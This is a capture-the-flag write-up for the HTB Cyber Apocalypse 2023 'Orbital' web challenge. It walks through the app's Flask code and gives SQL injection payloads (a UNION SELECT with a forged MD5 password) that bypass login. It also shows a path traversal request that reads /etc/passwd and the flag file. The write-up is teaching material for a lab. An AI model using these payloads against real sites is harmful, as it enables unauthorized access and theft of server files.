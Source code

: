 ```yaml
---
layout: post
title:  "HTB Cyber Apocalypse 2023 - (Web) Orbital"
date:   2023-03-23 15:00:06 +0300
categories: HTB_Cyber_Apocalypse_2023 CTF web
summary: Writeup for the Orbital (Web, Easy) from HTB Cyber Apocalypse 2023. This very simple challenge involved SQL Injection and a path traversal attack.  
---
```



'Orbital' was one of the challenges in the 'Web' category at HTB's Cyber Apocalypse 2023.  
Its difficulty was 'Easy' and it involved exploiting SQL Injection and a path traversal vulnerability.  

### Challenge description

For this challenge, we got access to a Docker container running a web app and the source files of that webapp.  

This is how the web app looks like:
![Login webpage]({{site.baseurl}}/assets/img/HTB_Cyber_Apocalypse_2023/web_orbital/main_page.png){: .center-image}

And these are the files that we have:
![List of challenge files]({{site.baseurl}}/assets/img/HTB_Cyber_Apocalypse_2023/web_orbital/challenge_files.png){: .center-image}

### Code analysis

First, let's take a look at the code for this app.  
The app is built using python & Flask.  
The first interesting thing that I seen was in the database.py file.  

### Identifying the first vulnerability SQL Injection

{% highlight python %}
def login(username, password):
    # I don't think it's not possible to bypass login because I'm verifying the password later.
    user = query(f'SELECT username, password FROM users WHERE username = "{username}"', one=True)

    if user:
        passwordCheck = passwordVerify(user['password'], password)

        if passwordCheck:
            token = createJWT(user['username'])
            return token
    else:
        return False
{% endhighlight %}

The query appends the username without any kind of filtering or sanitization; this makes the query vulnerable to SQL Injection.  

The first result of the query is taken and the user-supplied password is checked against the retrieved one (MD5 hashes match).  
This will make exploiting this a bit trickier but it shouldn't be that hard.

### Logging extra information

First, let's make the application print some extra information so that we can build our malicious query easier.  
We'll  change the login function like this:

{% highlight python %}
def login(username, password):
    # I don't think it's not possible to bypass login because I'm verifying the password later.
    print('----')
    print('Query:')
    print(f'SELECT username, password FROM users WHERE username = "{username}"')
    user = query(f'SELECT username, password FROM users WHERE username = "{username}"', one=True)
    print('Result:')
    print(user)
    print('----')

    if user:
        passwordCheck = passwordVerify(user['password'], password)

        if passwordCheck:
            token = createJWT(user['username'])
            return token
    else:
        return False
{% endhighlight %}

In order to make the output of those print statements visible, we also have to modify supervisord.conf

For that, we change this line
{% highlight python %}
command=python /app/run.py
{% endhighlight %}

Into this 
{% highlight python %}
command=python -u /app/run.py
{% endhighlight %}

This is a quick solution found [here](https://stackoverflow.com/questions/29663459/python-app-does-not-print-anything-when-running-detached-in-docker)

Next, I build and run the container by running the ./build-docker.sh script.  

And try logging in with test/test

![Application logs (with extra information)]({{site.baseurl}}/assets/img/HTB_Cyber_Apocalypse_2023/web_orbital/logs.png){: .center-image}

### The SQL Injection attack

Now let's build our SQL Injection attack.  

First, let's assume we don't know the account so we append "or 1=1" to the query.  
**Note:** Since we see how the container is built, we know that the account is admin. This is probably the same in the live version of the container.  
However, ignoring that information will lead to building a more robust attack vector.  

First, we'll use this simple query

{% highlight sql %}
test" OR 1=1#--
{% endhighlight %}

![Injection testing]({{site.baseurl}}/assets/img/HTB_Cyber_Apocalypse_2023/web_orbital/injection_test.png){: .center-image}

Then, we want to control the first value that's returned.  
For that, we add an UNION to the query and append our own data.  
The real data from the database will still come first, but we can add 'ORDER BY username DESC' to sort the returned data and make our injected result be the first one.

{% highlight sql %}
test" OR 1=1 UNION SELECT "test","test" ORDER BY username DESC#--
{% endhighlight %}

![Injection 1]({{site.baseurl}}/assets/img/HTB_Cyber_Apocalypse_2023/web_orbital/injection_1.png){: .center-image}

Success!  

Now we'll need to replace the second injected "test" with the MD5 value of "test" (since that's what I used as my password here).  

{% highlight sql %}
test" OR 1=1 UNION SELECT "test","098f6bcd4621d373cade4e832627b4f6" ORDER BY username DESC#--
{% endhighlight %}
![Injection 2]({{site.baseurl}}/assets/img/HTB_Cyber_Apocalypse_2023/web_orbital/injection_2.png){: .center-image}

And we're in.

![Webpage after login]({{site.baseurl}}/assets/img/HTB_Cyber_Apocalypse_2023/web_orbital/webpage_logged_in.png){: .center-image}

The flag isn't right on this page, so we have to keep looking.

### The path traversal attack

In the routes.py file we see the following code

{% highlight python %}
@api.route('/export', methods=['POST'])
@isAuthenticated
def exportFile():
    if not request.is_json:
        return response('Invalid JSON!'), 400
    
    data = request.get_json()
    communicationName = data.get('name', '')

    try:
        # Everyone is saying I should escape specific characters in the filename. I don't know why.
        return send_file(f'/communications/{communicationName}', as_attachment=True)
    except:
        return response('Unable to retrieve the communication'), 400
{% endhighlight %}

communicationName is appended to the path without any kind of sanitization.  
This makes that function vulnerable to path traversal.  

Let's try making a crafted request using BurpSuite to read the content of /etc/passwd.  
According to the Dockerfile, the working directory is /app. So the path to /etc/passwd should be ../etc/passwd (Full path:/app/../etc/passwd)
![Reading /etc/passwd]({{site.baseurl}}/assets/img/HTB_Cyber_Apocalypse_2023/web_orbital/etc_passwd.png){: .center-image}

It works without any issue.

### Getting the flag

Now let's use the same technique to get the flag.

First, we have to find out where we can find the flag in the container.  
In the dockerfile, we can see the following lines.  

{% highlight Docker %}
# copy flag
COPY flag.txt /signal_sleuth_firmware
COPY files /communications/
{% endhighlight %}

So the flag is copied at /signal_sleuth_firmware

![Fake flag]({{site.baseurl}}/assets/img/HTB_Cyber_Apocalypse_2023/web_orbital/fake_flag.png){: .center-image}

By requesting '../signal_sleuth_firmware' we got the flag (the fake one, for now)

Now, let's use the the same two attacks on the live app.  

![Real flag]({{site.baseurl}}/assets/img/HTB_Cyber_Apocalypse_2023/web_orbital/real_flag.png){: .center-image}

The two attacks work flawlessly for the live app too.  
And we get the flag: **HTB{T1m3\_b4$3d\_$ql1\_4r3\_fun!!!}**

Wait ... time based? 
